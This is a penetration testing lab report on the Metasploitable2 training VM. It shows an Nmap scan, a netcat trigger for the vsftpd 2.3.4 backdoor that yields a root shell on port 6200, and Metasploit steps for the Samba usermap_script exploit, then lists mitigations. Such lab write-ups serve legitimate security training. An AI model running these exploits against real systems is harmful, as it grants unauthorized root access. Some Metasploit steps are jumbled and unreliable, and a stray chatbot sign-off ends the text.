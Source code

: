 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) via Google.com

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![Nmap Scan](screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![vsftpd Backdoor Shell](screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", "id", and "ls" command were ran to show root access and files.

![vsftpd Backdoor Shell](screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**
   
* Metaploit Commands used:
```bash
>msfconsole
>use auxiliary/scanner/smb/smb
>use 11 
>show options
>set RHOSTS <target_ip>
>run
	(shows Samba 3.0.20-Debian)
>searchsploit samba 3.0.20
	 (shows 'Username map script' Command Execution)
>grep samba search username map
>use 3
>show options
>set RHOSTS <target_ip>
>exploit
>whoami
>ls
```
* Start Metaploit
![vsftpd Backdoor Shell](screenshots/screenshots/msf_scanner.png)

3. Find an auxiliary scanner to find the Samba SMB _version_ and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"

![vsftpd Backdoor Shell](screenshots/screenshots/msf_smb_version.png)

4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).

![vsftpd Backdoor Shell](screenshots/searchsploit_samba_version.png)

5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".

![vsftpd Backdoor Shell](screenshots/msf_grep_samba.png)

6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.

![vsftpd Backdoor Shell](screenshots/msf_usermap_script_root.png)

7. **Result:** Obtained root privileges via a shell.


---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```

